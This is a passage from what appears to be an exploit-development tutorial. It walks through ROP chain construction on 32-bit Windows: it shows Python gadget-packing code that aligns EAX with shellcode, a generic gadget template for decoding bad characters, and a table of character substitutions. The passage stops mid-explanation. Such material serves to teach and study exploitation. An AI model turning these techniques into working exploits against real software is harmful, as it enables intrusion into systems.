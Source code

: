 Now we have to decode it.


# Step 2. Get a pointer to the start of our shellcode
As previously mentioned, at this point of the ROP chain execution, EAX contains the stack address of nSize.
First of all, we we must determine the negative offset from the stack address pointing to nSize (this pointer is available to us after perfoming all the ROP chain in EAX) **to the first character of the shellcode**.
This calculation is tricky, so we will do it dinamically by doing a substraction.
After substracting, we find that the offset is -**1563** bytes, so we need to substract such quantity to EAX to align it to the start of the shellcode.
```
# Align EAX with shellcode
rop += pack("<L", (dllBase + 0x117c)) # pop ecx ; ret
rop += pack("<L", (0xfffff9e5))
rop += pack("<L", (dllBase + 0x4a7b6)) # sub eax, ecx ; pop ebx ; ret
```

# Step 3. Generate a ROP chain to fix each of the badchars.
Now that we have aligned EAX with the beginning of the shellcode, we need to create a method that dynamically adds a ROP chain for each bad character.
The **generic rop chain prototype that we will use to fix each of the badchars is the following:**
```python
rop += pack("<L", (dllBase + 0x117c)) # pop ecx ; ret
rop += pack("<L", (offset to next bad characters))
rop += pack("<L", (dllBase + 0x4a7b6)) # sub eax, ecx ; pop ebx ; ret
rop += pack("<L", (value to add)) # values in BH
rop += pack("<L", (dllBase + 0x468ee)) # add [eax+1], bh ; ret
```

For each of these ROP chains, our code must calculate the offset from the previous bad character to the next. It must also ensure that the offset is popped into ECX, as highlighted in the listing above (“offset to next bad characters”).
Because the value is subtracted from EAX, we’ll need to use its negative counterpart (to add instead of substracting as we are going to higher directions in the stack-remember how shellcode is stored).

We also need to add a value to the replacement character to restore the original bad character. We’ll place this value into the second highlighted section from the prototype ROP gadget.
We must keep in mind that the **value popped in EBX cannot contain a bad character**, and only the byte in **BH** (bytes 8 to 16) is used in the restore action.

So, if this is our conversion:
```c
0x00 -> 0xff 
0x09 -> 0x10 
0x0a -> 0x06 
0x0b -> 0x07 
0x0c -> 0x08 
0x0d -> 0x05 
0x20 -> 0x1f
```
